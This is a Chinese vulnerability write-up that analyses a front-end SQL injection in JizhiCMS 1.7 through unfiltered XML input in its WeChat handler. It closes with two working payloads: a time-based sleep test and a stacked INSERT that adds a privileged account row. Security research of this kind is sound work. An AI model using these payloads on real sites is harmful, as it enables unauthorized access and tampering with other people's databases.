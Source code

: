 # 极致CMS1.7 另一处前台SQL注入

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 0x00 漏洞描述

复现了 `CNVD-2021-26000` 之后，搜索了一下极致 `cms` 相关漏洞，发现 1.7 版本的漏洞还真不少，并且还有另一个前台`SQL` 注入，并且支持堆叠查询。

## 0x01 漏洞影响

极致CMS1.7

## 0x02 漏洞分析

关于这个 `cms` 数据库方面的一些基础已经在之前发的文章中讲了一些了，数据库操作基本上没有任何防护，但是大部分的输入都是有同一套比较完善的过滤，因此我们需要找到没有过滤的输入，并且会代入数据库操作的地方

这里有一处 `Home/c/WechatController.php` 的 `responseMsg` 方法

```php
$postStr = file_get_contents('php://input');
if (!empty($postStr)){
    libxml_disable_entity_loader(true);
    $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
    $this->postObj = $postObj;
    $fromUsername = $postObj->FromUserName;
    $toUsername = $postObj->ToUserName;
    $keyword = trim($postObj->Content);
    $time = time();
    $textTpl = "<xml>
                    <ToUserName><![CDATA[%s]]></ToUserName>
                    <FromUserName><![CDATA[%s]]></FromUserName>
                    <CreateTime>%s</CreateTime>
                    <MsgType><![CDATA[%s]]></MsgType>
                    <Content><![CDATA[%s]]></Content>
                    <FuncFlag>0</FuncFlag>
                    </xml>";
    if($postObj->MsgType=='event'){
        switch ($postObj->Event){
            case 'CLICK':
            break;
            case 'subscribe':
            $openid = $fromUsername;
            $islive = M('member')->find(array('openid'=>$openid));
```

首先是

```php
$postStr = file_get_contents('php://input');
```

这里是直接获取数据流，赋值给 `$postStr` ，因此这里就没有其他过滤

然后使用函数解析 `simplexml_load_string` ，可以用来解析 `xml` 字符串，要不是上面那一句，这里就有 `xxe` 漏洞咯

接下来是一串赋值，最后进入一个 `if` 语句，只有满足 `$postObj->MsgType=='event'` ，才会继续向下执行，而这个值是我们可控的，不成问题，设置

```xml
<MsgType><![CDATA[event]]></MsgType>
```

然后是 `switch` 语句，比较简单，选择使得 `$postObj->Event ==  'subscribe'`

```xml
<Event><![CDATA[subscribe]]></Event>
```

然后会执行

```php
$openid = $fromUsername;
$islive = M('member')->find(array('openid'=>$openid));
```

这里会先赋值，然后进入数据库操作，而这个 `$fromUsername` 在上面有定义

```php
$fromUsername = $postObj->FromUserName;
```

这也是可控的，可以这样

```xml
<FromUserName><![CDATA[1]]></FromUserName>
```

最后进入到了 `FrPHP/lib/Model.php` 的 `find` 方法

```php
public function find($where=null,$order=null,$fields=null,$limit=1)
{
   if( $record = $this->findAll($where, $order, $fields, 1) ){
        return array_pop($record);
    }else{
        return FALSE;
    }
}
```

这实际上是调用 `$this->findAll` ，只是限制了查询数量为 1，我们看 `$this->findAll`

```php
public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
{
    $where = '';
    if(is_array($conditions)){
        $join = array();
        foreach( $conditions as $key => $value ){
            $value =  '\''.$value.'\'';
            $join[] = "{$key} = {$value}";
        }
        $where = "WHERE ".join(" AND ",$join);
    }else{
        if(null != $conditions)$where = "WHERE ".$conditions;
    }
  if(is_array($order)){
        $where .= ' ORDER BY ';
        $where .= implode(',', $order);
  }else{
     if($order!=null)$where .= " ORDER BY  ".$order;
  }
    if(!empty($limit))$where .= " LIMIT {$limit}";
    $fields = empty($fields) ? "*" : $fields;
    $table = self::$table;
    $sql = "SELECT {$fields} FROM {$table} {$where}";
    return $this->db->getArray($sql);
}
```

这里的 `$conditions` 就是传进来的 `array('openid'=>$openid)` ，到最后会拼接字符串形成最后的 `sql` 语句

```sql
SELECT * FROM jz_member WHERE openid = '1' LIMIT 1
```

这里的 1 就是传进来的值，这个值没有经过任何过滤，因此我们可以随意拼接，最后传入 `$this->db->getArray($sql)`

```php
public function getArray($sql){
    if(!$result = $this->query($sql))return array();
    if(!$this->Statement->rowCount())return array();
    $rows = array();
    while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
    $this->Statement=null;
    array_pop($rows);
    return $rows;
}
```

然后就会执行 `$this->query($sql)`

```php
public function query($sql){
    $this->arrSql[] = $sql;
    $this->Statement = $this->pdo->query($sql);
    if ($this->Statement) {
        return $this;
    }else{
        $msg = $this->pdo->errorInfo();
        if($msg[2]){
            Error_msg('数据库错误：' . $msg[2] . end($this->arrSql));
        }
    }
}
```

这里使用了一个 `pdo` 对象（ `pdo` 数据对象扩展是 `php` 访问数据库的一个轻量级接口，`PDO` 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。），可以使用堆叠查询

执行后返回结果集，之后处理就不管了，至少执行 `sql` 之前没有任何处理，妥妥的 `sql` 注入，而且可以堆叠查询

## 0x03 漏洞复现

![](https://gitee.com/N0puple/nopic/raw/master/img/20210707234408.png)

放两个 `payload`

```
1';select sleep(5)-- 
```

```
1';insert into jz_level values(999,'fff','a877cec7a6ffd70dfd313411d6196a40','1','1','1','1','1','1')#
```

## 0x04 链接

环境与 `poc` 都可以在如下链接获取

### GitHub

https://github.com/N0puple/vulPOC

### 公众号

公众号搜索：安全漏洞复现

扫码持续关注：

![](https://gitee.com/N0puple/picgo/raw/master/img/qrcode_for_gh_a41358b842dd_430.jpg)

